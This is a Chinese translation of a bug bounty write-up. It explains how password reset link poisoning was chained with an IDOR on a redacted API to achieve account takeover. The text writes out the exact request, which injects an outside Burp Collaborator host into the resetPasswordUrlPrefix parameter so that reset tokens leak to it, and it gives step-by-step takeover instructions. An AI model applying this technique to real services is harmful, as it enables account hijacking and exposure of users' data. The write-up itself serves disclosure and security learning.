



# 链接密码重置链接中毒，IDOR 和信息泄漏，以实现在 api.redacted.com 的帐户接管

> 原文：<https://infosecwriteups.com/chaining-password-reset-link-poisoning-idor-account-information-leakage-to-achieve-account-bb5e0e400745?source=collection_archive---------0----------------------->


在评估目标 web 应用程序的有影响的漏洞时，一个有用的检查可能是查看 [waybackmachine](https://archive.org/web/) 以发现随着时间的推移已经存在于目标上的 URL。这些可能会暴露关键的功能，然后可以对其进行错误测试。我追踪的一个虫子赏金目标碰巧就是这种情况。

用户可以通过以下端点重置其帐户密码。`**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com**`

在做侦察的时候，我喜欢使用 [waybackurls](https://github.com/tomnomnom/waybackurls) 自动完成查找 URL 的过程。搜索该工具的结果发现了密码重置端点的另一个版本，其中包含一个有趣的参数(resetPasswordUrlPrefix)。

`**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https%3A%2F%web.archive.org%2Fsave%2F_embed%2Fhttps%3A%2F%2Faccounts.redacted.com%2Fmember%2Freset-password**`

还值得注意的是，在/v3/users/ endpoint 上没有访问控制，允许任何用户通过简单地更改请求中的电子邮件地址或句柄参数来检索属于另一个用户的信息。(这两个参数可以互换)。



API 端点泄漏用户句柄、电子邮件、ID、名字、姓氏

因此，在试图弄清楚 resetPasswordUrlPrefix 参数的用法时，我想到了一个主意。如果我在重置帐户密码时从 burpcollaborator 提供了一个有效负载会怎么样？

```
[**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password**](https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password)
```

这导致我的 burpcollaborator 客户端中的一些 DNS 和 HTTP 交互，表明密码重置令牌在 referer 标头中泄漏。这些信息足以证明概念，所以是时候写一份报告了。



引用标头中泄漏了密码重置令牌

我在下面的步骤中演示了我的概念证明；

1.  为了测试的目的，在程序上注册两个帐户，并登录到一个帐户。

2.向受影响的端点发出请求，将电子邮件地址或句柄替换为属于您的受害者帐户的地址或句柄。

```
[**https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password**](https://api.redacted.com/v3/users/resetToken?email=foobar@gmail.com&resetPasswordUrlPrefix=https://lvk9gh5vmzmaack1xdb3ekexyo4gs5.burpcollaborator.net/save/_embed/https://accounts.redacted.com/member/reset-password)
```

3.受害者帐户将收到一个以攻击者域为前缀的密码重置链接。



受害者帐户收到嵌入攻击者控制的域的中毒链接

4.一旦受害者点击中毒链接，攻击者将收到对他/她的域的请求，受害者的密码重置令牌在 referer 标头中可见。

5.攻击者在 web 浏览器中加载密码重置链接，并为受害者帐户设置新密码，从而完成帐户接管。

这是一个重复的问题。(意思是其他人已经向程序报告了)但是一个特别酷的 bug 仍然存在。

如果你喜欢阅读这篇文章，请留下掌声，并确保查看我在寻找 bug 过程中发现的问题的其他文章。

你可以在推特[https://twitter.com/mase289](https://twitter.com/mase289)上关注我，我在那里分享 bugbounty 的相关内容。下次再见，狩猎愉快！